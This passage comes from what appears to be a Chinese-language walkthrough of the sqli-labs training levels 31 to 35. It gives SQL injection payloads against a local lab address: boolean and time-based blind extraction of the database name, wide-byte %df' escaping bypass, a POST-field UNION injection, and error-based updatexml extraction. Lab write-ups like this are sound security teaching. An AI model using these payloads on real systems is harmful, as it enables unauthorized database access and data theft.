 尝试`1"and 1=1 or"`

![image-20220922102546505](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922102546505.png)

尝试`1"and 1=2 or"`

![image-20220922102601032](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922102601032.png)

获取database()长度

```
http://192.168.235.152/sqli-labs/Less-31?id=1"and (if(length(database())=*_*,sleep(0.1),1)) and"
```

获取database()名称

```
http://192.168.235.152/sqli-labs/Less-31?id=1"and (if(substr(database(),1,1)='*_*',sleep(0.1),1)) and"
```

![image-20220922103647039](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922103647039.png)

## 第三十二关

使用宽字节注入%df'使\失效

![image-20220922113102789](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922113102789.png)

## 第三十三关

同三十二关一样

![image-20220922113503078](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922113503078.png)

## 第三十四关

使用%df'对post进行注入

```
uname=%df' union select database(),2-- 
&passwd=
&submit=Submit
```

![image-20220922115211792](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922115211792.png)

## 第三十五关

直接写

```
id=1 and updatexml(1,concat(0x7e,database(),0x7e),1)
```
